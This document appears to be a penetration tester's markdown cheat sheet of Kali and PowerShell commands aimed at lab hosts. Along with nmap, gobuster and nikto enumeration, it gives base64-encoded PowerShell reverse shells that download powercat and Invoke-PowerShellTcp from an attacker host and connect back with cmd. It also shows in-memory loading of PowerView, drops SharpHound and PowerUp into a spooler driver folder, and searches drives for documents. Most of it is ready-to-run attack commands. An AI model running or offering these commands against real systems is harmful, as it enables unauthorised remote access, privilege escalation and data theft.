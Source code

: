 # Commands

## vi

```sh
kali@kali:/etc/vim$ cat /etc/vim/vimrc.local 
set paste
set cursorline
set number
```

## Enumeration 

```sh
$ sudo masscan -p1-65535 10.10.10.77 --rate=1000 -e tun0 > ports
$ ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')
$ sudo nmap -Pn -sV -sC -p$ports 10.10.10.77 -oA nmap
```

## Web

```sh
$ curl -v -X OPTIONS http://192.168.1.105/test

$ gobuster dir -w /usr/share/wordlists/dirb/common.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o gob_common_80.txt
$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -l -t 30 -e -k -x .html,.php -u http://192.168.1.159:80 -o go_medium_80.txt

$ nikto -host 192.168.1.159:8080 | tee nikto_192.168.1.159_8080.txt
```

## Find

```sh
$ find / -perm -4000 2> /dev/null
```

## Powershell

### Encoded commands

```sh
$command="ls"
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))
powershell.exe -encoded $Encoded
```
Reverse Shell

```sh
$command={IEX(New-Object System.Net.WebClient).DownloadString('http://10.13.14.3:9000/powercat.ps1'); powercat -c 10.13.14.3 -p 1234 -e cmd}
$Encoded = [convert]::ToBase64String([System.Text.encoding]::Unicode.GetBytes($command))

$command = 'IEX (New-Object Net.WebClient).DownloadString("http://10.13.14.3:9000/Invoke-PowerShellTcpRun.ps1")'
$bytes = [System.Text.Encoding]::Unicode.GetBytes($command)
$encodedCommand = [Convert]::ToBase64String($bytes)
```

Port Scanning

```sh
1..1024 | % {echo ((new-object Net.Sockets.TcpClient).Connect("localhost", $_)) "Port $_ is open!")) 2>$null
```

Downloading

```sh
$url="http://10.10.14.13:9000/SharpHound.exe"
$output="C:\Windows\System32\spool\drivers\color\SharpHound.exe"
(New-object system.net.webclient).downloadfile($url,$output)

(New-Object System.Net.WebClient).DownloadFile("http://10.10.14.13:9000/PowerUp.ps1", "C:\Windows\System32\spool\drivers\color\PowerUp.ps1")
```

Reflective Downloading

```sh
$ IEX(New-Object Net.WebClient).DownloadString('http://10.10.16.7:9000/PowerView.ps1')
```

Size of Folder

```sh
$ "{0} MB" -f ((Get-ChildItem C:\users\ -Recurse -force | Measure-Object -Property Length -Sum -ErrorAction Stop).Sum / 1MB)
```

Compress

```sh
$ Compress-Archive -LiteralPath <PathToFolder> -DestinationPath <PathToDestination>
```
Find Files

```sh
$ gci -force -recurse -file -ea silentlycontinue  

$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -force -ErrorAction SilentlyContinue

$ FindDate=Get-Date -Year 2016 -Month 06 -Day 24
$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate }
$ Get-ChildItem -Path C:\ -Include *.doc,*.docx -File -Recurse -ErrorAction SilentlyContinue | Where-Object { $_.LastWriteTime -ge $FindDate -and $_.LastWriteTime -le $Finddate.adddays(1) }
```

## Useful links

(https://github.com/swisskyrepo/PayloadsAllTheThings)
(https://book.hacktricks.xyz/)
(https://gtfobins.github.io/)
(https://github.com/LOLBAS-Project/LOLBAS/blob/master/README.md)
(https://www.sans.org/security-resources/sec560/misc_tools_sheet_v1.pdf)

